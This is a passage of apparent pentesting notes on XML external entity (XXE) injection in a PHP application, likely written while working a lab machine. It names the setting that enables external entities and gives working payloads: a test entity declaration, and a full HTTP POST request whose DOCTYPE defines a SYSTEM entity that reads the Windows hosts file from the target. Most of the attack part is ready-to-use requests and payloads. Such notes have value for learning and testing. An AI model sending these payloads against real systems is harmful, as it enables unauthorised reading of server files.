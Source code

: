 Allowing external DTDs is done in line:

```
libxml_disable_entity_loader (false);
```


## Main attacks

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### 1. Retrieve files

Modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.


In a windows system, we may use c:/windows/system32/drivers/etc/hosts:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order>
    <quantity>2</quantity>
    <item>&test;</item>
    <address>1</address>
</order>
```
